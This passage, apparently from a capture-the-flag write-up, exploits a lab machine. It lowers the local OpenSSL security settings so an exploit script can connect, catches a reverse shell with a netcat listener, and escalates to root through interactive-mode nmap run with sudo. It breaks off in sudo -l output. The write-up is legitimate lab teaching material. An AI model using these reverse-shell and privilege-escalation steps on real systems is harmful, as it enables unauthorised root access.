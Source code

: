 
All best practice is to disable TLSv1.0 and all SSL versions, so my host isn’t
allowing a connection to this box. I can change what my VM allows in
`/etc/ssl/openssl.cnf`, finding the line for `MinProtocol` and changing it to
`None`, like this:

    
    
    [system_default_sect]
    #MinProtocol = DEFAULT@SECLEVEL=2
    MinProtocol = None
    #CipherString = DEFAULT@SECLEVEL=2
    CipherString = None
    

I’ll need to do it for the `CipherString` as well, or it will throw a
different error. Once I have that, running `python 18650.py` results in a
connection and a shell:

    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 56205
    id
    uid=100(asterisk) gid=101(asterisk)
    

### Privesc to root

#### nmap

The comments in the exploit script suggest using `sudo nmap` to get to root,
and that does work. I’ll run `nmap` as root and then `![command]` to run a
command, like `bash`:

    
    
    sudo nmap --interactive
    
    Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
    Welcome to Interactive Mode -- press h <enter> for help
    nmap> !bash
    bash-3.2# id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    bash-3.2# cat /root/root.txt
    f2b76a2d************************
    

#### chmod

`sudo -l` shows there are a ton of things asterisk can run without a password
as root:

    
    
    bash-3.2$ sudo -l
    Matching Defaults entries for asterisk on this host:
        env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
        LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
        LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY"
    